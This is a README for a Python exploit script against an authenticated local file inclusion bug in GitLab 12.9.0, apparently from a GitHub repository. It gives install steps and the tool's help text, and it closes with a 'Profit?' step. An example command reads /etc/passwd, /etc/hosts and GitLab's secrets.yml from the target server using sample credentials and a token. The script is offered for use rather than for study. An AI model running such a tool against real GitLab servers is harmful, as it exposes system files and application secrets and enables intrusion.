 ## The what?

A (wanted to be) better script than what can be found on exploit-db about the authenticated LFI on GitLab v12.9.0. 

## The how?

1. Meet the dependency (you probably already have the rest)

`pip3 install requests python-gitlab`

2. Get an API token using your credentials

[https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html)

3. Profit?

```
$ python3 gitlab-12.9.0-lfi.py -h
usage: gitlab-12.9.0-lfi.py [-h] -H HOST -u USER -p PASSWD -t TOKEN -f FILES

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The https URI to gitlab webroot
  -u USER, --user USER  The user name
  -p PASSWD, --passwd PASSWD
                        The user password
  -t TOKEN, --token TOKEN
                        The access token
  -f FILES, --files FILES
                        The absolute paths to the files on the Gitlab local system
```

```
$ python3 gitlab-12.9.0-file-read.py -H https://gitlab.domain.com/ -u erk3 -p test1234 -t 9nsDFXshb1txxkkZAv24 -f /etc/passwd -f /etc/hosts -f /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

